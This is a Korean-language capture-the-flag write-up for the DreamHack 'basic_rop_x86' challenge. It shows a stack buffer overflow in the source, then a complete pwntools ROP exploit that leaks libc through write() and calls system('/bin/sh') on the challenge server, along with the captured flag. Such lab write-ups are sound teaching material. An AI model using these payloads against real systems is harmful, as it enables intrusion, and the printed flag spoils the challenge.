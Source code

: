 # [DreamHack] basic_rop_x86

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

---

> 이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x86)의 바이너리와 소스 코드가 주어집니다.
> Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_rop_x86.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548561/basic_rop_x86.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159908273-d4aceecb-dd98-46ed-b143-6c33808280c5.png)

## Analysis

```c
int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

`read(0, buf, 0x400)`에서 BOF가 발생한다. `main()`의 return address를 덮어서 ROP를 수행할 수 있다.

## Exploit

### Leak libc

`write()`로 GOT에 저장된 데이터를 출력하여 libc 주소를 구할 수 있다.

```python
# leak libc
# write(1, write_got, 4)

payload = b'a' * 0x48 # dummy
payload += p32(write_plt)
payload += p32(pop3ret)
payload += p32(1)
payload += p32(write_got)
payload += p32(4)
payload += p32(main) # return to main

r.send(payload)

r.recvuntil('a' * 0x40)
write = u32(r.recvn(4)) # write()
libc = write - write_offset # libc base
system = libc + system_offset # system()
binsh = libc + binsh_offset # "/bin/sh"
```

### Return to main / Call system("/bin/sh")

```python
# call system("/bin/sh")

payload = b'a' * 0x48 # dummy
payload += p32(system)
payload += b'a' * 4
payload += p32(binsh)

r.send(payload)
```

### Full Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_rop_x86')
    write_offset = 0xe57f0
    system_offset = 0x3cf10
    binsh_offset = 0x17b9db
else:
    r = remote('host1.dreamhack.games', 11769)
    write_offset = 0xd43c0
    system_offset = 0x3a940
    binsh_offset = 0x15902b

write_got = 0x804a024  # GOT of write()
write_plt = 0x8048450  # PLT of write()
pop3ret = 0x8048689  # pop esi; pop edi; pop ebp; ret
main = 0x80485d9  # main()


# leak libc
# write(1, write_got, 4)

payload = b'a' * 0x48  # dummy
payload += p32(write_plt)
payload += p32(pop3ret)
payload += p32(1)
payload += p32(write_got)
payload += p32(4)
payload += p32(main)  # return to main

r.send(payload)

r.recvuntil('a' * 0x40)
write = u32(r.recvn(4))  # write()
libc = write - write_offset  # libc base
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"


# call system("/bin/sh")

payload = b'a' * 0x48  # dummy
payload += p32(system)
payload += b'a' * 4
payload += p32(binsh)

r.send(payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 11769: Done
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$ cat flag
DH{ff3976e1fcdb03267e8d1451e56b90a5}
```